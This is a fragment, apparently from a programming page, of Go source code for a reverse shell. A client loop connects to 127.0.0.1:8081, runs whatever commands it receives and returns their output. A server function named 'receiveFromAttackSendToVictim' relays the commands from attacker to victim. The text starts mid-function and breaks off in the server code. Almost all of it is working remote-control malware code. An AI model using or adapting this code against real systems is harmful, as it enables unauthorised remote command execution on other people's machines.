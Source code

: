 ```go

		command := strings.Fields(message)

		var cmd *exec.Cmd

		if len(command) == 1 {
			cmd = exec.Command(command[0])
		} else if len(command) > 1 {
			cmd = exec.Command(command[0], command[1:]...)
		} else {
			continue
		}

		cmd.Stdout = conn
		cmd.Stderr = conn

		cmd.Run()
	}
}

func main() {
	var conn net.Conn
	var err error

	for {
		conn, err = net.Dial("tcp", "127.0.0.1:8081")
		if err == nil {
			break
		}
		time.Sleep(time.Second * 1)
	}

	receiveFromServer(conn)
}
```

Сервер:

```go
package main

import (
	"bufio"
	"fmt"
	"log"
	"net"
	"sync"
)

func receiveFromAttackSendToVictim(attc, vict net.Conn) {
	for {
		message, err := bufio.NewReader(attc).ReadString('\n')
		if err != nil {
			log.Fatal(err)
		}

		_, err = vict.Write([]byte(message + "\n"))
		if err != nil {
			fmt.Println("connection error")
			return
		}
	}
}

```